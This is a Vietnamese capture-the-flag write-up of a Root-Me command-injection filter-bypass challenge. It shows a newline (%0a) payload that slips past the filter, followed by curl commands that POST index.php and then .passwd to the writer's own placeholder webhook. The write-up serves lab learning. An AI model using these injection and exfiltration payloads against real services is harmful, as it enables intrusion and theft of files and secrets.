





# Command Injection - Filter Bypass

**Tên challenge:** Ping Service v2

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. Some protections were added. The flag is on the index.php file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng Ping duy nhất:

**B2:** Ta thử điền google.com vào thì Website trả về kết quả như sau:

Đến đây thì ta có thể hình dung Website sẽ lấy input ta nhập vào rồi thực hiện cú pháp ping đến input đó.

**VD:** ping input_nguoidung

`Lúc này, câu hỏi đặt ra là: "Liệu Website có xử lý đúng cách input của người dùng không ? Và liệu ta có thể lợi dụng chức năng này để kéo dài câu lệnh và khiến cho hệ thống thực thi Command theo ý mình không ?"`

**B3:** Để tìm ra câu trả lời thì ta sẽ thử payload input như sau: `google.com; ls -la`

* <u>**Giải thích:**</u> google.com là để kết hợp với lệnh ping của hệ thống, sau đó ta sẽ thêm `; ls -la` để thử xem liệu Website có thực thi câu lệnh được kéo dài này của ta không ?
* Nếu như giả thuyết của ta đúng thì cú pháp của hệ thống lúc này sẽ như sau: `ping google.com; ls -la`

=> Xem ra Website đã filter input người dùng để hạn chế việc bị tấn công Command Injection.

Nhưng ngoài dấu `;` để nối dài câu lệnh Command trong Linux thì ta còn có thể dùng các dấu khác với chức năng tương tự như: `$`, `\`, `||`, `&&`, xuống dòng (`%0a`)

**B4:** Ta tiếp tục thử các cách trên thì chỉ duy nhất payload: `google.com%0als` là thành công

**Lưu ý:** Payload trên phải được chỉnh sửa qua gói tin trên Burp-suite vì khi thực hiện thẳng trên trình duyệt có thể sẽ không thành công.

=> Từ đây, ta có thể kết luận trang web đã thực thi Command của ta.

Tuy nhiên, kết quả trả về lại chỉ là `Ping OK`. Vậy thì làm sao ta mới đọc được file `index.php` mà đề bài yêu cầu.

* **Trả lời:** Do Website đã filter hết những ký tự có thể nối dài câu Command và chỉ chừa `%0a` cho nên rất khó đề ta có thể mò từng kết quả của lệnh. Cho nên, ta chỉ có thể đẩy file `index.php` ra ngoài Webhook của ta thông qua lệnh **curl**.

**B5:** Ta thử sử dụng lệnh `curl https://webhook_cua_ta` để xem thử Website có cho gói tin ra ngoài không thông qua payload `google.com%0acurl+https://webhook_cua_ta`

=> Vậy là ta có thể `curl` đến Webhook của ta.

**B6:** Ta chỉ cần dùng lệnh **curl** để lấy file `index.php` đưa lên Webhook của ta thông qua payload `google.com%0Acurl+-X+POST+-F+"file=@./index.php"+https://webhook_cua_ta`

* **Giải thích:** `./index.php` nghĩa là lấy file `index.php` ở thư mục hiện tại. Nếu không có dấu `.` trước `/index.php` thì lệnh sẽ tìm file ở thư mục `/` và có thể gây ra lỗi.

Sau khi gửi gói tin đi, trên Webhook của ta sẽ nhận được file `index.php` và khi tải file đó về mở ra thì ta biết được `Flag` đang nằm ở file `.passwd` cùng với thư mục chứa file `index.php`

**B7:** Ta tiếp tục dùng lệnh curl trên và thay đổi thành file `.passwd`: `google.com%0Acurl+-X+POST+-F+"file=@./.passwd"+https://webhook_cua_ta`

=> Cuối cùng là đọc `Flag` thôi.
